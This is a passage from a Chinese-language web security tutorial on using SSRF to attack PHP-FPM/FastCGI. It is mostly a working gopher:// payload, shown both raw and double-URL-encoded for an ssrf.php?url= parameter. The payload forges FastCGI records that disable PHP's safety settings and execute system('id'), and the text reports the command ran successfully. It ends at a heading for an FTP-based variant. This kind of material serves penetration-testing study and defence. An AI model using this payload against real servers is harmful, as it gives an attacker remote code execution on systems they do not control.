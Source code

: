 如上图所示获得payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的payload内容放到?url=后面发送过去即可：

```plain
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

[![](assets/1698897074-309d628ca5b8b7102b55e0b97fe8df37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134742-91522ad0-b2e5-1.png)

## FTP - SSRF 攻击 FPM/FastCGI
